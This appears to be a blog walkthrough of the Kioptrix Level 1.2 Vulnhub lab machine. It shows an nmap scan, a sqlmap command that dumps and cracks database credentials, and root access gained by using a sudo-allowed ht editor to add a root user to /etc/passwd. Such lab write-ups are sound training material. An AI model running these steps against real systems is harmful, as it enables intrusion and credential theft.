 ```yaml
---
layout: post
title:  "KIOPTRIX: LEVEL 1.2 Vulnhub Walkthrough"
date:   2020-09-27 15:00:00 +0530
categories: VulnHub CTF
---
```

KIOPTRIX: LEVEL 1.2 is a machine in which I used SQL Injection to get useres credintials to obtain shell access and then exploited the misconfigured sudo permissions to get root Access.

## Scanning
As always, I started scanning with Nmap

```
root@kali:/home/kali# nmap -sV -sC -p- 192.168.198.143
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-27 21:03 EDT
Nmap scan report for kioptrix3.com (192.168.198.143)
Host is up (0.0030s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
MAC Address: 00:0C:29:2C:61:46 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.90 seconds

```
A Normal HTTP and SSH Services
## HTTP Services 
So First I tried to browse the website and found a suspicous URL. And Adding the single quotation giving me a MySQL error so it's vulnerable to SQL Injection.
```
http://192.168.198.143/gallery/gallery.php?id=1&sort=photoid#photos
```

## SQL Injection
So Imeditatly I ran SQLMAP to exploit, dump database and evnatioly crack the hashes found in the database.
```
sqlmap -u 192.168.198.143/gallery/gallery.php?id=1 --dump
```

![Username](/assets/image/006/1.png)

Then I ssh'd to user loneferret.

## Privilege Escalation 
I ran diffreent Enumeration scripts and found an intersting sudo privileges.

```
loneferret@Kioptrix3:~$ sudo -l
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
```
The su binary path is wrong and it has ! mark. The ht binary is a text and hex editor so I had many ideas in this case.

1. Read /etc/shadow and get root hash then crack it with john (SUCCESS)
2. Write in /etc/passwd a new user with root privliges (SUCCESS)
3. Write in /etc/sudoers and change the su binary path (SUCCESS)

But first I had to fix some errors

```
loneferret@Kioptrix3:~$ sudo ht
Error opening terminal: xterm-256color.
loneferret@Kioptrix3:~$ export TERM=xterm
```

Then i opened /etc/passwd and added yoyo -root- user.

![Username](/assets/image/006/2.png)

Then I logged in using ssh to the created user.
```
kali@kali:~$ ssh yoyo@192.168.198.143
yoyo@192.168.198.143's password: 
Last login: Mon Apr 18 11:29:13 2011
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
root@Kioptrix3:~# cat Congrats.txt 
Good for you for getting here.
Regardless of the matter (staying within the spirit of the game of course)
you got here, congratulations are in order. Wasn't that bad now was it.

Went in a different direction with this VM. Exploit based challenges are
nice. Helps workout that information gathering part, but sometimes we
need to get our hands dirty in other things as well.
Again, these VMs are beginner and not intended for everyone. 
Difficulty is relative, keep that in mind.

The object is to learn, do some research and have a little (legal)
fun in the process.

I hope you enjoyed this third challenge.

Steven McElrea
aka loneferret
http://www.kioptrix.com

Credit needs to be given to the creators of the gallery webapp and CMS used
for the building of the Kioptrix VM3 site.

Main page CMS: 
http://www.lotuscms.org

Gallery application: 
Gallarific 2.1 - Free Version released October 10, 2009
http://www.gallarific.com
Vulnerable version of this application can be downloaded
from the Exploit-DB website:
http://www.exploit-db.com/exploits/15891/

The HT Editor can be found here:
http://hte.sourceforge.net/downloads.html
And the vulnerable version on Exploit-DB here:
http://www.exploit-db.com/exploits/17083/

Also, all pictures were taken from Google Images, so being part of the
public domain I used them.

```
and voila here is the root privilege!





